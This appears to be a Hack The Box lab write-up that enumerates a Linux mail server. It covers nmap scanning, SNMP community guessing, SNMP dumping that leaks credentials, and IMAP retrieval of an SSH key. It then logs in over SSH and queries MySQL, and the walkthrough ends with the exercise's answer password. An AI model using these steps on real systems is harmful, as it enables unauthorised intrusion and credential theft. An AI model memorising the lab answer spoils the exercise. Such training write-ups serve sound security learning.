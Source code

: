 The third server is an MX and management server for the internal network. Subsequently, this server has the function of a backup server for the internal accounts in the domain. Accordingly, a user named `HTB` was also created here, whose credentials we need to access.

# ?
Enumerate the server carefully and find the username "HTB" and its password. Then, submit HTB's password as the answer.

## [[Nmap]] Scan
```bash
sudo nmap -sV -sS 10.129.254.59    
```
```bash                                                                          PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
Lets run `onesitynine` for SNMP enumeration
```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.254.59
```
```bash
Scanning 1 hosts, 3219 communities
10.129.254.59 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
                        
```
We can see the Community string `backup` Using `braa` will get the credentials 
```bash
braa backup@10.129.254.59:1.3.6.*
```
Output
```bash
10.129.254.59:105ms:.0:Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
10.129.254.59:105ms:.0:.10
10.129.254.59:106ms:.0:212857
10.129.254.59:212ms:.0:Admin <tech@inlanefreight.htb>
10.129.254.59:106ms:.0:NIXHARD
10.129.254.59:106ms:.0:Inlanefreight
10.129.254.59:106ms:.0:72
10.129.254.59:107ms:.0:8
10.129.254.59:105ms:.1:.1
10.129.254.59:106ms:.2:.1
10.129.254.59:166ms:.3:.1
10.129.254.59:168ms:.4:.1
10.129.254.59:106ms:.5:.1
10.129.254.59:105ms:.6:.49
10.129.254.59:106ms:.7:.4
10.129.254.59:106ms:.8:.50
10.129.254.59:104ms:.9:.3
10.129.254.59:104ms:.10:.92
10.129.254.59:106ms:.1:The SNMP Management Architecture MIB.
10.129.254.59:106ms:.2:The MIB for Message Processing and Dispatching.
10.129.254.59:213ms:.3:The management information definitions for the SNMP User-based Security Model.
10.129.254.59:105ms:.4:The MIB module for SNMPv2 entities
10.129.254.59:105ms:.5:View-based Access Control Model for SNMP.
10.129.254.59:105ms:.6:The MIB module for managing TCP implementations
10.129.254.59:106ms:.7:The MIB module for managing IP and ICMP implementations
10.129.254.59:105ms:.8:The MIB module for managing UDP implementations
10.129.254.59:107ms:.9:The MIB modules for managing SNMP Notification, plus filtering.
10.129.254.59:105ms:.10:The MIB module for logging SNMP Notifications.
10.129.254.59:234ms:.1:8
10.129.254.59:105ms:.2:8
10.129.254.59:105ms:.3:8
10.129.254.59:107ms:.4:8
10.129.254.59:107ms:.5:8
10.129.254.59:107ms:.6:8
10.129.254.59:106ms:.7:8
10.129.254.59:107ms:.8:8
10.129.254.59:105ms:.9:8
10.129.254.59:191ms:.10:8
10.129.254.59:211ms:.0:214038
10.129.254.59:106ms:.0:�
                        8

10.129.254.59:107ms:.0:393216
10.129.254.59:105ms:.0:BOOT_IMAGE=/vmlinuz-5.4.0-90-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro ipv6.disable=1 maybe-ubiquity

10.129.254.59:106ms:.0:0
10.129.254.59:107ms:.0:141
10.129.254.59:107ms:.0:0
10.129.254.59:105ms:.0:1
10.129.254.59:235ms:.80:/opt/tom-recovery.sh
10.129.254.59:105ms:.80:tom NMds732Js2761

```

towards the bottom we see the creds. `tom NMds732Js2761`
Now we can use these to login to IMAP server.
```bash
openssl s_client 10.129.254.59:imaps
```

AFter we can use these commands to login and get the id_rsa
```bash
a LOGIN tom NMds732Js2761
a SELECT INBOX
a FETCH 1 all
a FETCH 1 BODY.PEEK[TEXT]
```
Save the `opensshprivatekey` AND CHANGE THE PERMISSION we save into our ~/.ssh folder. We give 600 permission to the file id_rsa.
```bash
chmod 600 id_rsa
ssh tom@$ip
```

SSH login was successful and now we can look into the history of commands used by the user.
```bash
history
```
in the history we find `mysql -u tom -p` we use the password `NMds732Js2761`
We are logged into the mydql database and we can run commands query the database find the user and password.
```bash
show databases;
use users;
show tables;
select * from users;
```
After scroll through the queryed data we find user `HTB` and password `cr3n4o7rzse7rzhnckhssncif7ds`